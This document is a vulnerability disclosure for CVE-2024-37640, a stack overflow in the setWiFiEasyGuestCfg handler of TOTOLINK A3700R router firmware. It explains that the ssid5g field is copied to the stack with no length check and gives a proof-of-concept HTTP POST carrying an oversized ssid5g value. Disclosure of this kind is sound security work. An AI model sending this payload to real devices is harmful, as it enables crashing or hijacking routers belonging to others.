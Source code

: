 # TOTOLINK A3700R V9.1.2u.6165_20211012 function setWiFiEasyGuestCfg stack overflow

### Product Information

Product: TOTOLINK A3700R  Firmware Version: V9.1.2u.6165_20211012  

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37640

### Analysis

`V5 ` retrieves the value from the ` ssid5g ` field input by the user and processes it in the ` urldecode ` function. The processed result is stored in the stack.

![image-20240613123002266](./image-20240613123002266.png)

But without checking if the length exceeds the buffer.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 331

Origin: http://127.0.0.1

Connection: keep-alive

Referer: http://127.0.0.1/basic/index.html

Cookie: SESSION_ID=2:1718247599:2

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin



{

"topicurl":"setWiFiEasyGuestCfg",

"wifiOff5g":"0",

"ssid5g":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
```

![image-20240613123100654](./image-20240613123100654.png)
